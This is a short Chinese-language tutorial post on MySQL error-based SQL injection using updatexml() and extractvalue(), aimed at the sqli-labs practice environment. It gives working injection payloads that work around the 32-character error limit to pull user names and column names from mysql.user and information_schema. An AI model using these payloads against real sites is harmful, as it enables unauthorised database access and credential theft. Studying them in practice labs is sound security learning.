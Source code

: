 ```yaml
---
layout: post
title: MySQL报错注入
categories: [web,sql]
---
```

## 报错注入常用的函数
### updatexml()
### extractvalue()
![4](/img/sql4.png)  
![5](/img/sql5.png)  
---

>XPath限制报错内容长度不能超过32个字符
>   常见的解决方法有：  
>	limit 分页  
>   substr()截取字符 
---
### 1.limit 分页
```sql
	?id=-1' and updatexml(1,concat(0x7e,  
	(select user  
	from mysql.user limit 1,1)),3) --+  
```
### 2.substr()截取字符
```sql
	?id=-1' and updatexml(1,concat(0x7e,  
	substr(  
		(select group_concat(user)  
		from mysql.user), 1 , 31)  
),3) --+  
``` 
### 3.not in排除字符
```sql
	http://192.168.3.7/sqli-labs-master/Less-5/?id=-1' and extractvalue(1,concat(0x7e,(select   group_concat(column_name) from information_schema.columns where table_name='users' and   column_name not in ('USER','CURRENT_CONNECTIONS','TOTAL_CONNECTIONS')),0x7e)) %23  
```

## 附加一个宽字节注入
>仅限于中文  
![6](/img/sql6.png)